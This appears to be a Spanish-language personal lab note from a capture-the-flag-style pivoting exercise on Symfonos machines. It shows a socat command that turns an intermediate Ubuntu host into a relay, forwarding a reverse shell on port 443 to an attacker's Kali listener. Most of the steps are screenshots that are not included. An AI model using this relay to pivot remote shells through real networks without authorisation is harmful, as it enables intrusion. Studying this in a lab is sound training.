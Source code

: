 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20240615203355.png]]

Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```

![[Pasted image 20240615203400.png]]

Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:

![[Pasted image 20240615203405.png]]

Y en Kali recibimos la conexión:

![[Pasted image 20240615203410.png]]
